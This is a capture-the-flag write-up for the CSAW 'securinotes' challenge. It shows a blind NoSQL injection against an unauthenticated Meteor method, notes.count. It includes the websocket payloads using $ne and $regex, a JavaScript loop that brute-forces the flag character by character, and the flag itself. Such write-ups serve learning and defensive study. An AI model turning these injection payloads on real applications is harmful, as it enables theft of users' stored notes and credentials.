 ```yaml
---
description: Meteor NoSQL Injection
---
```


# securinotes

## Description

You have access to the `SecuriNotes` application. You overheard your coworker Terry talking about how he uses it as a password manager. What could possibly go wrong...

Author: `h34d4ch3`, RangeForce

http://web.chal.csaw.io:5002

## Solution

In the front-end JavaScript source code, we can see that Meteor is being used to fetch data from a MongoDB backend.

First, let's find all the exposed Meteor methods. We can see that `notes.count`, `notes.add` and `notes.remove` are publically callable methods.

```javascript
Meteor.methods({
  'notes.count': function (filter) {
    return Notes.find(filter).count();
  },
  'notes.add': function () {
    let user = this.userId;

    if (!user) {
      throw new Meteor.Error('not-authorized', "You are not logged in.");
    }

    return Notes.insert({
      body: "### Title\n\nNew note\n\nCreated at " + new Date().toLocaleString(),
      owner: user
    });
  },
  'notes.remove': function (id) {
    let user = this.userId;

    if (!user) {
      throw new Meteor.Error('not-authorized', "You are not logged in.");
    }

    return Notes.remove({
      _id: id,
      owner: this.userId
    });
  }
});
```

In particular, though, `notes.count` is unauthenticated. Let's start there! From the above code, it seems like `notes.count` applies some kind of filter and the backend server returns the number of notes that pass the filter.

In Burp Suite, I found that this method was being called through websockets. Upon connecting to the webpage, this was being sent to the server: 

`["{\"msg\":\"method\",\"method\":\"notes.count\",\"params\":[{\"body\":{\"$ne\":\"\"}}],\"id\":\"1\"}"]`

The `$ne` filter checks whether the body of the notes is not equal to an empty string. After a bit of fiddling, I found that `$regex` was accepted too. This allows us to specify a regex pattern for the note contents. To verify, I checked that the following only returned one result:

`["{\"msg\":\"method\",\"method\":\"notes.count\",\"params\":[{\"body\":{\"$regex\":\"flag{.*}\"}}],\"id\":\"1\"}"]`

Here, we are checking for notes that match the regex pattern `flag{.*}`, which is the flag format. The result will be 1, because only one note contains the flag.

We could extend this to bruteforce every character of the flag. By appending each possible character at the end of the flag, we can check which character causes the count to return 1 \(the rest will return 0\).

```javascript
let curr = 'flag{';

const lowerAlph = ["a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z"];
const upperCaseAlp = ["A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z"];
const numbers = ["1", "2", "3", "4", "5", "6", "7", "8", "9", "0"]
const charset = lowerAlph.concat(upperCaseAlp).concat(numbers).concat(["{", "}", "_"])
console.log(charset);

for (i = 0; i < charset.length; i++)
{
    let char = charset[i];
    console.log(char);

    Meteor.call('notes.count', {
        body: {
            $regex: curr + char + '.*'
        }
    }, function (err, res) {
        if (res !== 0)
        {
            console.log(char);
        }
    });
}
```

The flag is `flag{4lly0Urb4s3}`.

## References

* [https://medium.com/rangeforce/meteor-blind-nosql-injection-29211775cd01](https://medium.com/rangeforce/meteor-blind-nosql-injection-29211775cd01)

